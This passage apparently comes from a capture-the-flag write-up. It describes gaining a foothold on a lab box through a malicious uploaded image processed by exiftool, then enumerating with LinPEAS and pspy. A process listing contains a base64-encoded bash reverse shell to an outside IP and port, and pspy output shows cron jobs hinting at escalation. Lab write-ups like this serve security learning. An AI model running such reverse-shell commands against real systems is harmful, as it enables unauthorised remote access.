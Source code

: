 Uploading this malicious file to the website get us a reverse shell as user `www-data`.

## Lateral Movement

The user with id `1000` is `thomas`. We can view his home directory with `ls -la /home/thomas/` to see the `user.txt` flag.

We upload LinPEAS and run it, but there is nothing obvious in the output. However, it is cool to see the number of nested processes we made in order to get a foothold on the box:

```
www-data  7965  0.0  0.6 197424 13964 ?        S    18:45   0:00  _ /usr/sbin/apache2 -k start
www-data  8613  0.0  0.0   2388   696 ?        S    19:21   0:00  |   _ sh -c exiftool '/var/www/dev01.artcorp.htb/metaview/uploads/phpztsAFU.jpg' --system:all --exiftool:all -e
www-data  8614  0.0  0.8  20480 17448 ?        S    19:21   0:00  |       _ /usr/bin/perl -w /usr/local/bin/exiftool /var/www/dev01.artcorp.htb/metaview/uploads/phpztsAFU.jpg --system:all --exiftool:all -e
www-data  8615  0.0  0.0   2388   692 ?        S    19:21   0:00  |           _ sh -c echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNjkvNTI0MjcgMD4mMQ== | base64 -d | bash
www-data  8618  0.0  0.1   3736  2800 ?        S    19:21   0:00  |               _ bash
www-data  8619  0.0  0.1   4000  3324 ?        S    19:21   0:00  |                   _ bash -i
www-data  8639  0.0  0.0   2592  1848 ?        S    19:21   0:00  |                       _ /usr/bin/script -qc /usr/bin/bash /dev/null
www-data  8640  0.0  0.0   2388   756 pts/11   Ss   19:21   0:00  |                           _ sh -c /usr/bin/bash
www-data  8642  0.0  0.1   4000  3188 pts/11   S    19:21   0:00  |                               _ /usr/bin/bash
www-data  8762  1.8  0.2   5752  5168 pts/11   S+   19:24   0:00  |                                   _ bash linpeas.sh
www-data 11484  0.0  0.1   5752  3844 pts/11   S+   19:24   0:00  |                                       _ bash linpeas.sh
www-data 11488  0.0  0.1   7960  3064 pts/11   R+   19:24   0:00  |                                       |   _ ps fauxwww
www-data 11487  0.0  0.1   5752  2380 pts/11   S+   19:24   0:00  |                                       _ bash linpeas.sh
```

Uploading and running [pspy](https://github.com/DominicBreuker/pspy) reveals that the following are run every minute:

```
2022/02/26 19:32:01 CMD: UID=1000 PID=21226  |
2022/02/26 19:32:01 CMD: UID=0    PID=21225  | /usr/sbin/CRON -f
2022/02/26 19:32:01 CMD: UID=0    PID=21224  | /bin/sh -c cp -rp ~/conf/config_neofetch.conf /home/thomas/.config/neofetch/config.conf
2022/02/26 19:32:01 CMD: UID=0    PID=21223  | /usr/sbin/CRON -f
2022/02/26 19:32:01 CMD: UID=0    PID=21222  | /usr/sbin/CRON -f
2022/02/26 19:32:01 CMD: UID=0    PID=21221  | /usr/sbin/CRON -f
2022/02/26 19:32:01 CMD: UID=1000 PID=21228  | /bin/bash /usr/local/bin/convert_images.sh
2022/02/26 19:32:01 CMD: UID=0    PID=21227  | /bin/sh -c cp -rp ~/conf/config_neofetch.conf /home/thomas/.config/neofetch/config.conf
2022/02/26 19:32:01 CMD: UID=1000 PID=21229  | /usr/local/bin/mogrify -format png *.*
2022/02/26 19:32:01 CMD: UID=1000 PID=21230  | /bin/bash /usr/local/bin/convert_images.sh
```
